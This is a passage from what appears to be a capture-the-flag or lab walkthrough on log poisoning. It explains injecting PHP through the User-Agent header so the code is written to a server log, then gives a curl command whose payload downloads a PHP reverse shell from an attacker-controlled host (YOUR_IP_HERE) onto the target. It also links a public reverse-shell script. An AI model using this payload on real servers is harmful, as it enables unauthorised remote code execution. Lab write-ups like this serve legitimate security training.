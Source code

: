 <img style="float: left;" src="screenshots/screenshot19.png">

<br>

Next, we'll inject our PHP code into the **user-agent** header of our request. This is a more reliable method as compared to injecting it directly as a parameter input. If we inject directly as a parameter input, our code could end up being encoded by the server before being saved to the log file. This will cause it to not be treated as code later on by the server.

We will be uploading a PHP reverse shell to the server (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). 

We will also use **curl** to make the request:

```
curl -A “<?php file_put_contents(‘shell.php’,file_get_contents(‘http://YOUR_IP_HERE/shell.php'))?>" http://10.10.65.102
```
